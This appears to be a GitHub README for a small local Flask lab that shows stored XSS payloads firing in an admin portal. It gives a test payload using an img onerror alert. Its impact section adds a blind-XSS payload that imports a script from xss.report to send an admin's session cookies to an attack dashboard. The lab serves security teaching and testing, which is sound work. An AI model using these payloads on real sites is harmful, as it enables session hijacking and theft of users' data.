<h1>Stored XSS In An Admin Portal</h1>

<h2>Overview</h2>

Stored-XSS can be a serious vulnerability, especially if your XSS Payloads trigger in an admin portal. Imagine your stored-blind xss payloads triggering in an admin portal, and you then recieve all of the
admin's session cookies. You could Session Hijack the administrator and cause negative effects for the website. And this all happened because someone forgot to sanitize user input somewhere.

Stored-XSS is fun to test for in Web Security, so I built a little python program that uses Flask to spin up a simple little application that let's you see what it looks like when your stored-xss payloads
trigger in an admin portal.

<h2>How To Use The Stored XSS Test Program</h2>

1. Copy, Create and Start the python file in my Stored-XSS Repository labeled 'stored-xss-in-admin-portal.py'. Start the python file with python or python3. Reference the image below.

![start-stored-xss-test-suite](https://github.com/user-attachments/assets/cf4f1b94-4ac0-41e8-940c-a974941adea3)


2. After starting the Stored XSS In Admin Portal program, open your browser and visit http://127.0.0.1:5000. Reference the image below to see the program opened in my browser.

![open-stored-xss-app-in-browser](https://github.com/user-attachments/assets/b0268ed0-3b6e-4983-93b2-448350682e32)

3. Store an xss payload in the 'Send Message' box, and then press send. You can test out this payload ```test';"/><img/src/onerror=alert(0)>``` Reference the image below.

![storing-an-xss-payload](https://github.com/user-attachments/assets/b0621f81-47c4-44ed-a4d0-6abc7e75a20b)

4. After your xss payload is stored, notice that a javascript alert pops up on your screen. Exit the javascript alert and notice your payload is stored in the page source. Reference the image below.

![xss-execution-after-payload-storage](https://github.com/user-attachments/assets/2115dcfc-5717-4983-ada7-c28aae090d98)

5. Now let's see what happens when an admin views our messages in their Admin portal. Travel to http://127.0.0.1:5000/admin in your browser, or click 'Admin Portal'. Notice that you are directed to the
   admin portal and a javascript alert box pops up on your screen. When the admin portal then loads, your xss payload is stored on the page and in the page source. Reference the image below.
   
![admin-portal-view-during-xss-execution](https://github.com/user-attachments/assets/e97e3e17-015f-4704-be0f-76f1d2fe32ae)

<h2>IMPACT - Why Is This Important?</h2>

Stored XSS can be used to steal data and hijack user sessions. To do this, instead of using ```test';"/><img/src/onerror=alert(0)>``` to make a javascript alert box pop up on the user's screen, we can use a javascript
payload that will exfiltrate the user's session cookies to our attack server. The payloads on xss.report can do this, therefor to steal steal an admin's cookies on our app at http://127.0.0.1:5000/admin, we can store a blind-xss payload like this ```test';"/><img/src/onerror=import('//xss.report/c/fakeUser')>``` on http://127.0.0.1:5000 using the 'Send Message' box, and when an admin reads the message, their data will be exfiltrated to my attack dashboard on xss.report




